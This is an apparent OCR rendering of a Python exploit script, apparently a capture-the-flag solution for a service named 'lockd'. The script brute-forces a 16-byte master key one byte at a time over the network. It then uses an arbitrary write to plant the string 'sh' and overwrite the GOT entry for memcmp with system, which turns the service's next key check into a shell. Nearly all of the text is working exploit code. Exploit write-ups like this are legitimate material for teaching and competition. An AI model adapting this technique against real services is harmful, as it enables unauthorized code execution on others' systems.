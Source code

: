 ```python
            
            buf  = b"A"*(16 - i - 1) + candidate.to_bytes(1, 'big') + known 
            buf += b"AAAA"             # DUMMY
            buf += b"A"*(16 - i - 1)
            
            lockd.p.sendafter(b'Input master key > ', buf)
            try:
                lockd.p.recvline()
                known = candidate.to_bytes(1, 'big') + known
                print(known)
                lockd.p.close()
                break
            except:
                pass
        else:
            print('Failed')
            break
    if len(known) == 0x10:
        return known


if __name__ == '__main__':
    password = brute_force_passwd()
    # password = b'c39f30e348c07297'      # for debug
    assert len(password) == 0x10, "brute force password failed"

    lockd = Lockd(HOST, PORT, password, debug=args.GDB)

    sh = u32(b'sh\x00\x00')
    lockd.arbitrary_write_4_bytes(0x804A0A4, sh)

    lockd.password = b'sh\x00\x00'+lockd.password[4:]
    lockd.arbitrary_write_4_bytes(e.got['memcmp'], e.plt['system'])

    lockd.check()
```